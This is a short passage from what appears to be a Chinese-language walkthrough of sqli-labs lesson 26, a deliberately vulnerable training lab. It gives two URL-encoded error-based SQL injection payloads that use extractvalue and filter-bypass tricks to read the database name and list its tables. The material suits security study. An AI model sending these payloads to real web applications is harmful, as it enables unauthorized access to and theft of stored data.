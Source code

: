 `http://192.168.75.132/sql/Less-26/?id=1'%26%26extractvalue(null,concat(0x7e,database(),0x7e))%7c%7c'1`

![003](/img/sql/Lesson-26/003.png)

### 获取表名

`http://192.168.75.132/sql/Less-26/?id=1'%26%26extractvalue(null,concat(0x7e,(select(group_concat(table_name))from(infoorrmation_schema.tables)where(table_schema='security')),0x7e))%7c%7c'1`

![004](/img/sql/Lesson-26/004.png)
